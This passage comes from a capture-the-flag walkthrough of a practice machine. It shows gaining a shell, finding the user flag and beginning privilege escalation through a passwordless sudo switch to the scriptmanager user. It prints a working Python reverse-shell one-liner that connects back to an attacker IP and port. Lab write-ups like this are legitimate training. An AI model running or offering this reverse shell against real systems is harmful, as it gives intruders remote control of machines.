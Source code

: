 ```text
which python
```

Since we get back a result, python is installed on the machine! Copy the python command from the list and change it to your attack machine’s ip address and listening port.

```text
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.30",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Yes! We have a reverse shell going.

![](https://miro.medium.com/max/572/1*Dhh9U-8MkrDDLqwYatscEg.png)

Let’s find the user flag. Change to the home directory and view its contents.

![](https://miro.medium.com/max/689/1*995ncW6rXg-akMu6lKExFw.png)

I have execute privileges on both arrexel and scriptmanager directories. Let’s look in the arrexel directory first.

![](https://miro.medium.com/max/664/1*k0C_W6cozluyc7XbvHB81Q.png)

We found the user flag!

![](https://miro.medium.com/max/754/1*WC5JizLuuWnt-98615olLw.png)

## Privilege Escalation <a id="00cd"></a>

Next, I need to figure out what other privileges I have or can easily get. The following command lists the allowed commands for my user.

![](https://miro.medium.com/max/740/1*gcJPmbEZ5Z-i6_vSm6b-kA.png)

The last two lines are particularly interesting because they say that the user I’m running in the context of \(www-data\) can run as the user scriptmanager without having to provide the user’s password. This might come in handy later on.

For the time being, let’s do some more enumeration.

![](https://miro.medium.com/max/997/1*fMNnau8mZyTE7QqtZ4aHfQ.png)

Everything in the root directory seems to be owned by root except for the **scripts** directory which is owned by scriptmanager. In the previous step we found out that we can run as scriptmanager without a password.

```text
sudo -i -u scriptmanager
```

The above command changes the user to scriptmanager.

![](https://miro.medium.com/max/692/1*BeZT9yzKvHXu8YJaxohz6w.png)
